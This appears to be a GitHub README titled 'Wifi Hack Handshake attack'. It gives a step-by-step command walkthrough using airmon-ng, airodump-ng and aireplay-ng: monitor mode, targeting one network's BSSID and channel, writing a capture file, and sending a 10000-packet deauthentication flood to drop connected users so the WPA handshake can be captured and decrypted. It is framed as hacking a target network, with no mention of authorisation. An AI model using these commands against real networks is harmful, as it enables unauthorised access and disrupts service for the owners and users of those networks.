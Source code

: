 <h1 align="center">Wifi Hack Handshake attack</h1>

[![N|dc](https://i.hizliresim.com/3vwdudh.png)](https://discord.gg/5sYSzWQJ3Z)

<details> 
 <summary><strong>Contents (İçindekiler)</strong></summary>
 <p>

* Monitor - Managed mod
  - [mon & man](#monman)
* Airodump-ng
  - [Gathering information](#infonet)
* Aireplay-ng
  - [Attack/Handshake](#attack)

<br>
</details>

# Wifi Hack

## Catch Handshake

### ([▲](#top)) Monitor & Manage <a name="monman"></a>
`Turning on monitor mode`, example usage:
- `airmon-ng start <interface>`
```
┌──(root💀kali)-[~]
└─# airmon-ng start wlan0
```
`Turning off monitor mode`, example usage:
- `airmon-ng stop <interface>`
```
┌──(root💀kali)-[~]
└─# airmon-ng stop wlan0
```

### ([▲](#top)) Gathering information about networks <a name="infonet"></a>

`start monitoring networks`, airodump-ng <interface> example usage:

```
┌──(root💀kali)-[~]
└─# airodump-ng wlan0mon
```

```
BSSID = MAC Address
Power = PWR - Signal power
Data = the data we have
CH = Channel - What channel is it on
ENC = Encryption model
CIPHER = Decrypton model
ESSID = network name
Example airodump-ng usage:
```
- For the information gathering and deauthentication attack for the network to be attacked, we first need to enter the following line of code, example usage:
`airodump-ng --bssid <bssid> --channel <channel_number> --write <filename> <interface>`

```
┌──(root💀kali)-[~]
└─# airodump-ng --bssid 0A:1B:2C:3D:4E:5F --channel 5 --write handshake_file wlan0mon
```

### ([▲](#top)) Attack target <a name="attack"></a>

- Deauthentication attack, The product connected to wifi needs to be dropped from the network. Example usage:

`aireplay-ng --deauth <#packets> -a <target_MAC> -c <station> <interface>`

```
┌──(root💀kali)-[~]
└─# aireplay-ng --deauth 10000 -a 0A:1B:2C:3D:4E:5F -c 0A:1B:2C:3D:4E:5F wlan0mon
```

NOTE: Our goal here is to remove the user connected to our target network from the network and reconnect, and to capture and decrypt the encrypted numbers that occur in the air when the user wants to reconnect to the network.